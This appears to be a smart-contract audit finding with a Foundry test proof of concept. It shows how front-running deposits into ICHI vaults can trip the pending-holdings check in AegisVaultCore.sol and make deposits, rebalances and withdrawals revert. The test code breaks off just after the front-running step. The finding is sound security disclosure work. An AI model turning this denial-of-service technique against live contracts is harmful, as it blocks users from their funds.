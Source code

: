 ## Description

The `_checkVolatility` function in `AegisVaultCore.sol` requires that the pending holdings ratio of deposit and target vaults are not above a certain threshold (set initially to 1%).

```solidity
    require(
        _pendingHoldingsRatio(depositVault, depositSpotPrice) <= pendingThreshold
            && _pendingHoldingsRatio(targetVault, targetSpotPrice) <= pendingThreshold,
        "PDT"
    );
```

This internal function is executed on deposit, rebalance, and withdrawal of type `TargetOnly`.

A malicious actor could perform a DoS over these actions by depositing tokens in one of the ICHI vaults before the transaction, causing it to revert, and withdrawing them after the transaction is reverted.

Note also that withdrawals in the ICHI vaults withdraw tokens proportionally from the Uniswap pools and from the unused funds in the vaults. This means that even after the withdrawal of the malicious actor, the pending holdings ratio could still be above the threshold, causing further transactions to revert.

## Proof of concept

Copy the following code into `deposit.t.sol`:

```solidity
function test_DoS_Deposit() public {
    // 1. Initial setup
    bytes32 depositorRoleId = aegisVaultCore.DEPOSITOR_ROLE();
    aegisVaultCore.grantRole(depositorRoleId, users.alice);

    vm.startPrank({ msgSender: users.alice });

    uint32 one_period = defaults.AEGIS_TWAP_PERIOD();
    skip(one_period);
    int24 finalTick = _swapToCrossTicks(true, 30);

    uint256 deposit0 = isToken0Deposit ? 1e16 : 0;
    uint256 deposit1 = isToken0Deposit ? 0 : 1e16;
    address to = users.alice;

    depositVault.deposit(deposit0, deposit1, to);
    targetVault.deposit(deposit1, deposit0, to);

    int24 baseLower = getClosestLowTick(-TICKS_100_PCT, tickSpacing);
    int24 baseUpper = getClosestLowTick(finalTick, tickSpacing);
    int24 limitUpper = getClosestHighTick(baseUpper + TICKS_100_PCT, tickSpacing);

    vm.startPrank({ msgSender: users.owner });
    depositVault.rebalance(baseLower, baseUpper, baseUpper + tickSpacing, limitUpper, 0);
    targetVault.rebalance(baseLower, baseUpper, baseUpper + tickSpacing, limitUpper, 0);

    vm.startPrank({ msgSender: users.alice });
    IERC20(address(depositVault)).approve({ spender: address(aegisVaultCore), amount: MAX_UINT256 });
    uint256 notTooLittleDepositToken = 510;

    // 2. Bob front-runs Alice's deposit, increasing the pending holdings ratio in the deposit vault
    vm.startPrank({ msgSender: users.bob });
    uint256 ichiShares = depositVault.deposit(deposit0, deposit1, users.bob);

    // 3. Alice's deposit reverts
```